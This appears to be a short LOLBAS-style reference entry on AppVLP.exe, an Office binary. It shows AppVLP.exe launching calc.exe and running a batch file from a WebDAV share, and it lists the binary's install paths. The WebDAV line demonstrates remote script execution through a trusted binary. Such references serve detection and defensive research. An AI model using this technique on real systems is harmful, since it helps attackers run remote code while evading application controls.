 ## Appvlp.exe

* Functions: Execute

```
AppVLP.exe calc.exe    
AppVLP.exe \\webdav\calc.bat   
```

Acknowledgements:
* fab - @0rbz_    

Code sample:
*

Resources:
* 

Full path:
```
C:\Program Files\Microsoft Office\root\client\appvlp.exe       
C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe       
```

Notes:
Requires Office.


 
